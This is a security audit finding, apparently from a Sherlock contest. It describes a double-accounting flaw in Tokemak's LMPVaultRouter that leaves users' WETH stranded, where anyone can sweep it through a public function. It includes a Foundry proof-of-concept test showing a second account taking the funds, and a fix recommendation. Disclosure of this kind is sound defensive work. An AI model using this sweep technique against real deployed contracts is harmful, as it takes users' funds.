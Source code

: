# H-02 Router double accounting problem and exposed funds in smart contract

## Severity

High

## Summary

LMPVaultRouter serves as a gateway for users to interact with LMPVault. When the user approves WETH and sends ETH with the deposit function call, the router still transfers WETH from the user even though it already got ETH with the call. Another user can watch for this and collect ETH from the router using an exposed function.

## Vulnerability Detail

Users should use LMPVaultRouter to interact with LMPVault. There are two basic functions in LMPVaultRouterBase - deposit and mint. Users can use them to deposit tokens to LMPVault. Both functions share this problem. Let's take a look at **deposit** function. It is payable so the user can send ETH with it.

```solidity
/// @inheritdoc ILMPVaultRouterBase
function deposit(
    ILMPVault vault,
    address to,
    uint256 amount,
    uint256 minSharesOut
) public payable virtual override returns (uint256 sharesOut) {
    // handle possible eth
    _processEthIn(vault);

    IERC20 vaultAsset = IERC20(vault.asset());
    pullToken(vaultAsset, amount, address(this));

    return _deposit(vault, to, amount, minSharesOut);
}
```

> [https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L43C1-L57C6](https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L43C1-L57C6)

Both deposit and mint contain ```_processEthIn(vault)``` function calls. This function converts incoming ETH to WETH if possible.

```solidity
function _processEthIn(ILMPVault vault) internal {
    // if any eth sent, wrap it first
    if (msg.value > 0) {
        // if asset is not weth, revert
        if (address(vault.asset()) != address(weth9)) {
            revert InvalidAsset();
        }

        // wrap eth
        weth9.deposit{ value: msg.value }();
    }
}
```

> [https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L111C1-L122C6](https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L111C1-L122C6)

After ETH is processed, the router pulls the token which in this case would be WETH. This pulled WETH would be transfered to the LMPVault but the incoming wrapped ETH would stay in the router.

Here comes the second problem. LMPVaultRouterBase inherits from PeripheryPayments. This smart contract has public functions to pull tokens out of the smart contract and anyone can call them. If the hacker is faster than the user or the user doesn't know about this, the hacker can call the function to sweep the user's WETH from the router.

```solidity
function sweepToken(IERC20 token, uint256 amountMinimum, address recipient) public payable {
    uint256 balanceToken = token.balanceOf(address(this));
    if (balanceToken < amountMinimum) revert InsufficientToken();

    if (balanceToken > 0) {
        token.safeTransfer(recipient, balanceToken);
    }
}
```

> [https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L58C1-L65C6](https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L58C1-L65C6)

### POC

Add this test function to **LMPVaultRouter.t.sol**. Run it with the command ```forge test --match-contract LMPVaultRouterTest --match-test test_DoubleAccountingSweep```.

```solidity
function test_DoubleAccountingSweep() public {
    // create cyril and donald
    address cyril = makeAddr("cyril");
    address donald = makeAddr("donald");

    // deal ether
    deal(cyril, 100 ether);
    deal(donald, 100 ether);

    // cyril approves and deposits ether
    uint amount = 10 ether;
    vm.startPrank(cyril);
    weth.approve(address(lmpVaultRouter), amount);
    weth.deposit{value: amount}();
    lmpVaultRouter.deposit{value: amount}(lmpVault, cyril, amount, 0);
    vm.stopPrank();

    assert(weth.balanceOf(address(lmpVaultRouter)) == 10 ether); // cyril's WETH is left in router

    // donald sees free weth and sweeps it
    vm.prank(donald);
    lmpVaultRouter.sweepToken(weth, weth.balanceOf(address(lmpVaultRouter)), donald);

    assert(cyril.balance == 80 ether); // Cyril sent 10 ether to router and changed 10 ether to WETH
    assert(weth.balanceOf(cyril) == 0); // Router pulled cyrils 10 WETH
    assert(weth.balanceOf(address(lmpVaultRouter)) == 0); // No weth left in router
    assert(weth.balanceOf(donald) == 10 ether); // Donald stole WETH from router
}
```

## Impact

The user loses WETH because of router double accounting and it can be stolen from the router by anyone.

## Code Snippet

[https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L43C1-L57C6](https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L43C1-L57C6)

[https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L111C1-L122C6](https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L111C1-L122C6)

[https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L58C1-L65C6](https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L58C1-L65C6)

## Tool used

Manual Review

## Recommendation

Change the logic so it wouldn't pull WETH from the user if enough ETH is included in the message call.
